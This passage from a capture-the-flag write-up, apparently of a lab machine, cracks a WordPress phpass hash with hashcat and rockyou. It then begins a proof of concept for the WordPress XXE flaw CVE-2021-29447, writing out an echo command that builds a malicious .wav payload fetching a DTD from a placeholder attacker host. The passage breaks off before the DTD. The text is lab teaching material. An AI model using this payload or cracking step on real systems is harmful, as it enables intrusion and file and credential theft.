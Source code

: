 We get hashes, one of which we can break with a hashcat using the rockyou dictionary:

```bash
❯ hashcat -m 400 -a 0 manager_pass.hash /usr/share/wordlists/rockyou.txt

$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar   
                              
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
Time.Started.....: Tue Dec 6 23:08:23 2022 (17 secs)
Time.Estimated...: Tue Dec 6 23:08:40 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   6857 H/s (9.25ms) @ Accel:512 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 110592/14344385 (0.77%)
Rejected.........: 0/110592 (0.00%)
Restore.Point....: 106496/14344385 (0.74%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:8064-8192
Candidate.Engine.: Device Generator
Candidates.#1....: harmless -> music69
Hardware.Mon.#1..: Temp: 84c Util: 98%
```

We got the credentials for the admin-panel, from where we can exploit the XXE vulnerability CVE-2021-29447, mentioned at the beginning.

![Desktop View](https://3nnl.github.io/metatwo/static\_3.avif)

### CVE-2021-29447 <a href="#cve-2021-29447" id="cve-2021-29447"></a>

To exploit this vulnerability we need a CMS below 5.7.1, PHP 8 and a user account with file upload privileges, which is appropriate in our case.

{% embed url="https://tryhackme.com/room/wordpresscve202129447" %}

{% embed url="https://www.acunetix.com/vulnerabilities/web/wordpress-5-6-x-multiple-vulnerabilities-5-6-5-6-2." %}

{% embed url="https://github.com/AssassinUKG/CVE-2021-29447" %}

#### PoC <a href="#poc-1" id="poc-1"></a>

First of all, create a .wav file with the payload:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURIP:PORT/DTDFILE.dtd'"'"'>%remote;%init;%trick;]>\x00' > malicious.wavash
```

As well as a .dtd file with the following code, this will allow us to execute the code after the web server receives the .dtd file:
